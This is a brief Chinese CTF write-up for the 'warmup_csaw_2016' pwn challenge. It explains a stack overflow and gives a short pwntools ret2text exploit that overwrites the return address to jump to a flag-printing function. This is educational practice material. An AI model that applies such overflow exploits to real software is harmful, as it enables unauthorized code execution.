 ```yaml
---
title: "warmup_csaw_2016"
description: ""
date: 2023-03-30T22:51:11+08:00
lastmod: 2023-03-30T22:51:11+08:00
draft: false
images: []
type: docs
weight: 1000
toc: true
---
```


## 0x01 分析

![09d4eedd8bf2501793e6ea0160f22923](images/09d4eedd8bf2501793e6ea0160f22923.png)  

存在溢出点，而且程序里有直接获取flag的函数

![b7018d5d4dd90f510226659cb7e99754](images/b7018d5d4dd90f510226659cb7e99754.png)  

直接简单的ret2text即可拿到flag

## 0x02 Exploit

```python
from pwn import*
o = process("./pwn")
payload = b'a'*72 + p64(0x40060D)
o.sendline(payload)
o.interactive()
```

![cdba4d8aa3119cfd352b0c47a064d02f](images/cdba4d8aa3119cfd352b0c47a064d02f.png)
